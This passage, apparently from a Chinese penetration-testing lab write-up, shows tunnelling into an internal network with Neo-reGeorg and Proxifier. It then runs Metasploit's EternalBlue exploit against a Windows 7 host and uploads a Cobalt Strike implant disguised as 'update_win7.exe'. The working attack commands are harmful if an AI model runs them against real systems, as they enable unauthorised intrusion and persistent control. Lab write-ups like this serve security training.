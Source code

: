- 第三种方式：socks 代理

```shell
# 使用工具: Neo-reGeorg + proxifier

# 在攻击机: neo-regrorg设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 
python neoreg.py generate -k password
# 生成完成之后，将php或其他合适的类型的脚本上传到WEB服务器（使用冰蝎上传）
# 连接隧道脚本
python3 neoreg.py -k password -u http://xx/tunnel.php -p 8000
```

- 配置proxifier： 设置全局socks5代理并且添加规则指向目标内网网段走我们新配置的socks5

  ![image-20231002175959146](https://p.ipic.vip/ainqnx.png)

  ![image-20231002180244588](https://p.ipic.vip/e93e4s.png)

- 其他的一些内网穿透工具：cs、冰蝎、Proxychains、suo5、nps

不管选择哪一种方案穿透内网，设置成功之后，就可以开始打ms17-010:

> 本次实验选用第三种方式做内网穿透

```shell
# 攻击机使用Metasploit
cd metasploit-framework/bin
./msfcosole
use exploit/windows/smb/ms17_010_eternalblue

set RHOSTS <win7主机_IP>
set RPORT 445


#设置完成之后开始攻击
exploit
```

成功获取到win7主机权限

![image-20230919002659278](https://p.ipic.vip/xs79e6.png)

![image-20230919002602146](https://p.ipic.vip/y03mco.png)

![image-20230919003030573](https://p.ipic.vip/0h2erd.png)

- 上线cs (本次实验win7主机出网，可以直接上线cs，反之需要配合ssh隧道才能上线)

  - 上传cs的马

  > C:\\Windows\\Temp权限: 用户可以在其创建的对象上拥有完全控制权

  ```shell
  # 上传cs生成的马到win7的C:\Windows\Temp目录下；\需要转义，所以要写两个\
  upload /Users/shulei/Desktop/update_win7.exe C:\\Windows\\Temp
  ```
